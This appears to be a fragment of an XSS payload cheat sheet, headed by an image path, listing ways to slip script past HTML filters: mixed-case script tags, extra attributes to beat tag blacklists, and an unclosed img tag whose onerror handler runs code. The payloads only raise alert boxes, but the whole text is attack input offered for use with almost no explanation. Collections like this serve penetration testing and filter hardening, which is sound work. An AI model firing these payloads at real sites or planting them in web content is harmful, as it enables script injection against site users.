 ## XSS between HTML tags
#### Bypass case sensitive

```html
<sCrIpt>alert(1)</ScRipt>
```

#### Bypass tag blacklist

```html
<script x>
<script x>alert('XSS')<script y>
```

#### Bypass with incomplete html tag
```html
<img src='1' onerror='alert(0)' <
```
